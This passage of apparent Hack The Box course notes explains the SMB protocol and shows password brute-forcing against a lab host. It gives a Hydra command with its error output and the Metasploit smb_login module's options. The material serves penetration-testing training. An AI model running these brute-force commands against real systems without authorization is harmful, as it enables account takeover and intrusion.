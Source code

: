 ## SMB
[Server Message Block](https://docs.microsoft.com/en-us/windows/win32/fileio/microsoft-smb-protocol-and-cifs-protocol-overview) (`SMB`) is a protocol responsible for transferring data between a client and a server in local area networks. It is used to implement file and directory sharing and printing services in Windows networks. SMB is often referred to as a file system, but it is not. SMB can be compared to `NFS` for Unix and Linux for providing drives on local networks.

#### Hydra - SMB
```shell-session
AhmaDb0x@htb[/htb]$ hydra -L user.list -P password.list smb://10.129.42.197
```

#### Hydra - Error
```shell-session
AhmaDb0x@htb[/htb]$ hydra -L user.list -P password.list smb://10.129.42.197

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-06 19:38:13
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[DATA] max 1 task per 1 server, overall 1 task, 25 login tries (l:5236/p:4987234), ~25 tries per task
[DATA] attacking smb://10.129.42.197:445/
[ERROR] invalid reply from target smb://10.129.42.197:445/
```

This is because we most likely have an outdated version of THC-Hydra that cannot handle SMBv3 replies. To work around this problem, we can manually update and recompile `hydra` or use another very powerful tool, metasploit
```shell-session
AhmaDb0x@htb[/htb]$ msfconsole -q

msf6 > use auxiliary/scanner/smb/smb_login
msf6 auxiliary(scanner/smb/smb_login) > options 

Module options (auxiliary/scanner/smb/smb_login):

   Name               Current Setting  Required  Description
   ----               ---------------  --------  -----------
   ABORT_ON_LOCKOUT   false            yes       Abort the run when an account lockout is detected
   BLANK_PASSWORDS    false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED   5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS       false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS        false            no        Add all passwords in the current database to the list
   DB_ALL_USERS       false            no        Add all users in the current database to the list
   DB_SKIP_EXISTING   none             no        Skip existing credentials stored in the current database (Accepted: none, user, user&realm)
   DETECT_ANY_AUTH    false            no        Enable detection of systems accepting any authentication
   DETECT_ANY_DOMAIN  false            no        Detect if domain is required for the specified user
   PASS_FILE                           no        File containing passwords, one per line
   PRESERVE_DOMAINS   true             no        Respect a username that contains a domain name.
   Proxies                             no        A proxy chain of format type:host:port[,type:host:port][...]
   RECORD_GUEST       false            no        Record guest-privileged random logins to the database
   RHOSTS                              yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT              445              yes       The SMB service port (TCP)
```